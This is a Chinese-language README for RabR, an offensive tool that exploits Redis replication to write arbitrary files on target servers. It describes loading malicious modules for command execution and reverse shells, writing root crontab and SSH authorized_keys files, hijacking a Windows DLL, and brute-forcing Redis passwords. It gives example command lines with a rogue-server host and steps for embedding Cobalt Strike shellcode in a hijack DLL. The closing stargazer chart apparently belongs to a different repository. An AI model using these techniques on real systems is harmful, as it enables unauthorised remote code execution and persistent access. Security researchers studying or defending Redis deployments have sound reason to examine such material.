 # RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到Redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的Redis进行module攻击、crontab写入攻击和ssh公钥写入攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp/linux/exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。    
- 本工具默认使用的crontab文件：exp/linux/exp.crontab，使用前务必根据自己实际的需求进行修改，或者直接通过命令行设置自己的crontab文件。  
- 本工具默认使用的ssh公钥文件：exp/linux/exp.authorized_keys，使用前务必自己重新生成以替换，或者直接通过命令行设置自己的ssh公钥文件。  
- 本工具默认使用的Windows恶意模块：exp/win/exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：exp/win/dbghelp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你也可以编译自己的dbghelp.dll。  
- 本工具有爆破功能，默认密码字典位于pwd.txt中，也可自定义字典文件。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  redis-attack.py 攻击主程序
│  pwd.txt 爆破字典
├─exp
│  ├─linux
│  │      exp.authorized_keys 默认写入的Linux下的ssh公钥文件，用前需要修改
│  │      exp.crontab 默认写入的Linux下的crontab定时任务文件，用前需要修改
│  │      exp.so 默认导入的Linux Redis模块
│  └─win
│          dbghelp.dll 默认用于劫持Redis的dll
│          exp.dll 默认导入的Windows Redis模块
└─util 有用的程序（用于保存Redis数据） 
```

## 用法   
运行环境：python3
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-wf WINFILE2] [-lf LINUXFILE] [-lf2 LINUXFILE2] [-lf3 LINUXFILE3] [-a AUTH] [--brute] [-v]
Example:
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -P 80 -b mypwd.txt -i
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -lf3 id_rsa.pub

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default exp/win/dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        RedisModules(win) to load, default exp/win/exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules(linux) to load, default exp/linux/exp.so
  -lf2 LINUXFILE2, --linuxfile2 LINUXFILE2
                        Crontab file used to attack linux(/var/spool/cron/root), default exp/linux/exp.crontab(must be
                        modified before use)
  -lf3 LINUXFILE3, --linuxfile3 LINUXFILE3
                        SSH id_rsa.pub file used to attack linux(/root/.ssh/authorized_keys), use `ssh-keygen -t rsa`
                        to generate, default exp/linux/exp.authorized_keys(empty file, must be modified before use)
  -a AUTH, --auth AUTH  redis password
  -b [BRUTE], --brute [BRUTE]
                        If redis needs to verify the password, perform a brute force attack, dict default pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```

![image-20210708212712502](pic/image-20210708212712502.png)
![image-20210708190457889](pic/image-20210708190457889.png)
![image-20210708213302932](pic/image-20210708213302932.png)

## 进一步  
劫持Windows x64下的dbghelp.dll的具体方法：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   
```
1、将dllmain.c中 shellcode_calc[] 的值替换为cs生成的shellcode   
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);  
3、修改活动解决方案为Realease，x64  
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值  
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击。  

## 时间线  
```  
2021.07.03 发布v0.5  
2021.07.08 发布v0.6,增加了Windows模块攻击  
2021.08.02 发布v0.6.3,增加了针对Linux的crontab写入攻击、ssh公钥写入攻击  
```


## 感谢  
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  
 [浅析Linux下Redis的攻击面(一)](https://xz.aliyun.com/t/7974)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR    

## Stargazers over time

[![Stargazers over time](https://starchart.cc/0x727/ObserverWard.svg)](https://github.com/0x727/ObserverWard)
